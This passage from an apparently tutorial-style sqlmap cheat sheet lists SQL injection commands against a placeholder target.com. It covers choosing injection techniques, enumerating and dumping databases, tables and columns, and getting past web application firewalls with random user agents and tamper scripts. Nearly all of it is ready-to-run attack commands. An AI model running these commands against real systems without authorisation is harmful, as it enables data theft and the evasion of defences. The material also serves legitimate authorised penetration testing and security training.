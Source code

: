 ### Specific Injection Techniques
```bash
# Test specific techniques
# B: Boolean-based blind
# E: Error-based
# U: Union query-based
# S: Stacked queries
# T: Time-based blind
# Q: Inline queries

sqlmap -u "http://target.com/page.php?id=1" --technique=BEU

# Test only time-based blind
sqlmap -u "http://target.com/page.php?id=1" --technique=T
```

### Database Enumeration
```bash
# Get basic database information
sqlmap -u "http://target.com/page.php?id=1" --banner --current-user --current-db

# List all databases
sqlmap -u "http://target.com/page.php?id=1" --dbs

# List tables in specific database
sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables

# List columns in specific table
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --columns

# Dump table data
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T table_name --dump
```

---

## 🛠️ Advanced Features

### 1. Bypassing Protection
```bash
# Random User-Agent
sqlmap -u "http://target.com/page.php?id=1" --random-agent

# Custom User-Agent
sqlmap -u "http://target.com/page.php?id=1" --user-agent="Mozilla/5.0..."

# WAF bypass with tamper scripts
sqlmap -u "http://target.com/page.php?id=1" --tamper=space2comment,randomcase

# Multiple tamper scripts
sqlmap -u "http://target.com/page.php?id=1" --tamper=between,randomcase,space2comment
```
